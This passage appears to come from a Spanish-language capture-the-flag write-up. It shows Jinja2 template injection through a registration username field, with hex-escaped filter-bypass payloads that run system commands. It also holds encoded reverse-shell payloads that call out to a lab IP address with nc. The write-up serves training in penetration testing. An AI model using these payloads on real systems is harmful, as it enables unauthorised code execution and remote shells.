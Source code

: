 Podemos observar que el payload escogido del respositorio Github tenia un carácter ilegal que era la comilla simple. Esto lo supimos al testear los otros caracteres especiales como \[ y tuvimos un registro exitoso. Para hacer que nuestro payload sea aceptado, convertire las comillas simples por las dobles.

```
Payload Exitoso: { { request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")() } }

```
![](/assets/images/Temple/image033.png)

![](/assets/images/Temple/image034.png)

De esta manera tuvimos un regisro exitoso, y logramos ejecutar el comando id exitosament en el sistema operativo del sistema destino.

Ahora lo comun seria registrar una cuenta donde el username sea un payload que nos genere una reverse shell pero ya he probado con varios comandos y no he tenido suerte debido a que algunos comandos tienen los caracteres ilegales encontrados anteriormente, pero esto se puede evitar realizando una codificacion hexadecimal o base64 de nuestro payload, pero aun asi obtengo una respuesta HTTP con codigo de estado HTTP 500.

```
Payload Fallido: { {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")(“ echo “cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuOC4xMjMuMTk0IDE4MDAgPi90bXAvZg==” |  base64 -d | bash")|attr("read")() } }
Payload Fallido: { {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")(" echo “\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x62\x61\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e
\x63\x20\x31\x30\x2e\x38\x2e\x31\x32\x33\x2e\x31\x39\x34\x20\x31\x38\x30\x30\x20\x3e\x2f\x74\x6d\x70\x2f\x66” | bash")|attr("read")() } }
```